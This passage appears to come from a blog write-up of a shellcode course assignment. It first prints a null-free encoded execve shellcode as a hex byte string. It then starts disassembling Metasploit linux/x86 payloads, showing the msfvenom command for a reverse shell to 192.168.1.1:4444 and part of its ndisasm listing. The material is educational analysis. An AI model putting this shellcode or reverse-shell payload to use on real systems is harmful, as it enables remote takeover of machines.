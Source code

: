 Sure, it's not the sexiest, but I thought it was pretty clever. Also, there are no nulls, wahoo!

```
$ objdump -d ./execve-decoder|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\xeb\x29\x5f\x31\xc9\xb1\x1e\x8a\x07\x3c\x0a\x7c\x08\xf6\xd0\x2c\x0c\x88\x07\xeb\x11\x31\xdb\xb3\xff\x66\x43\x80\xeb\x0c\xf6\xd0\x89\xc6\x01\xf3\x88\x1f\x47\xe2\xde\xeb\x05\xe8\xd2\xff\xff\xff\xc2\x33\xa3\x8b\x91\x92\x80\x8b\x8b\x91\x8a\x85\xc4\x8b\xc4\xc4\xc4\xc4\x6a\x10\xa3\x6a\x11\xa0\x6a\x12\x43\xe8\x26\x73"
```

### Task 5: Disassemble MSF 

This task requests students to disassemble and analyze at least three shellcode samples created by metasploit, specifically those under the linux/x86 families. At the time of course creation, the tools msfpayload, msfencode etc had not yet been combined into msfvenom, which is what I'll obviously use. I decided to perform analysis on the following three payloads:

shell_reverse_tcp (a non-staged reverse shell)
shell_bind_tcp (a non-staged bind shell)
adduser	(a payload for adding a user, duh)

Although not the most unique shellcodes, most other non-meterpreter payloads are, realistically, pretty simple. I chose the two metasploit equivalents of task 1 and 2, to see how a well optimized shellcode can perform similar tasks in fewer bytes.

Let's start with the first: 

#### shell_reverse_tcp

I went with ndisasm for the analysis of these shellcodes. It works well and takes stdin

```
$ msfvenom -p linux/x86/shell_reverse_tcp RHOST=192.168.1.1 RPORT=4444 -f raw | ndisasm -u -
/var/lib/gems/2.5.0/gems/bundler-1.17.3/lib/bundler/rubygems_integration.rb:200: warning: constant Gem::ConfigMap is deprecated
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 68 bytes

00000000  31DB              xor ebx,ebx
00000002  F7E3              mul ebx
00000004  53                push ebx
00000005  43                inc ebx
00000006  53                push ebx
00000007  6A02              push byte +0x2
00000009  89E1              mov ecx,esp
0000000B  B066              mov al,0x66
0000000D  CD80              int 0x80
0000000F  93                xchg eax,ebx
00000010  59                pop ecx
00000011  B03F              mov al,0x3f
00000013  CD80              int 0x80
00000015  49                dec ecx
00000016  79F9              jns 0x11
00000018  68C0A80110        push dword 0x1001a8c0
0000001D  680200115C        push dword 0x5c110002
00000022  89E1              mov ecx,esp
00000024  B066              mov al,0x66
00000026  50                push eax
00000027  51                push ecx
00000028  53                push ebx
00000029  B303              mov bl,0x3
0000002B  89E1              mov ecx,esp
0000002D  CD80              int 0x80
0000002F  52                push edx
```